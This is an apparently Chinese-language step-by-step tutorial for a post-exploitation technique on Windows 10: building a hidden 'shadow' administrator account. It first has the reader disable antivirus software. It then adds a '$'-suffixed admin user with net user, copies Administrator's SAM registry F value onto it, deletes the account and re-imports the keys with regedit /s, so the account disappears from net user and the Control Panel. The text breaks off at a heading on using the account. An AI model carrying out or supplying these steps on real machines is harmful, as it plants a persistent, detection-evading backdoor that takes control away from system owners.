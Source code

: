## 0x00 环境搭建

- win10 
- 已经获取最高权限





## 0x01 创建影子账户



### 一.  关闭杀软

不然……我谢谢你啊 360 火绒

![image-20240112152703304](./assets/image-20240112152703304.png)

![image-20240112152747375](./assets/image-20240112152747375.png)



### 一. 创建用户

在windows下，如果在用户名后面添加一个$符号的话，那么通过**net user**的方式是看不到的。

````
net user test$ 12138 /add
net localgroup administrators test$ /add 
````

但是在控制面板的用户管理那边还是能看到的

![image-20240112163623265](./assets/image-20240112163623265.png)



### 三. 注册表导出

`regedit`打开注册表，找到如下路径：

```powershell
计算机\HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
```

点击用户名，可以看到有个类型，这个类型的值和上面0000那一串字符相对应

![image-20240112164727024](./assets/image-20240112164727024.png)

1. 找到Administrator对应的0000开头的项（我这里是01F4），双击F复制其中的内容

![image-20240112165232448](./assets/image-20240112165232448.png)

2. 复制给我们创建账户的F值

![image-20240112165515266](./assets/image-20240112165515266.png)

3. 导出我们创建账户的注册表，两个都要导出

![image-20240112165855633](./assets/image-20240112165855633.png)



### 四. 删除用户

![image-20240112170100636](./assets/image-20240112170100636.png)

删除后我们刷新一下注册表和控制面板，能看到都没了

![image-20240112170554515](./assets/image-20240112170554515.png)



### 五. 导入注册表

双击确认导入

![image-20240112170808842](./assets/image-20240112170808842.png)

或者命令行导入

```powershell
regedit /s C:\Users\clay\Desktop\000001F4.reg  
regedit /s C:\Users\clay\Desktop\test$.reg 
```



操作好后可以看到注册表有信息了：

![image-20240112171132609](./assets/image-20240112171132609.png)

此时控制面板的账户管理也看不到任何信息了

![image-20240112171428923](./assets/image-20240112171428923.png)

![image-20240112171236593](./assets/image-20240112171236593.png)



## 0x02 拓展

创建好影子账户后要怎么使用呢?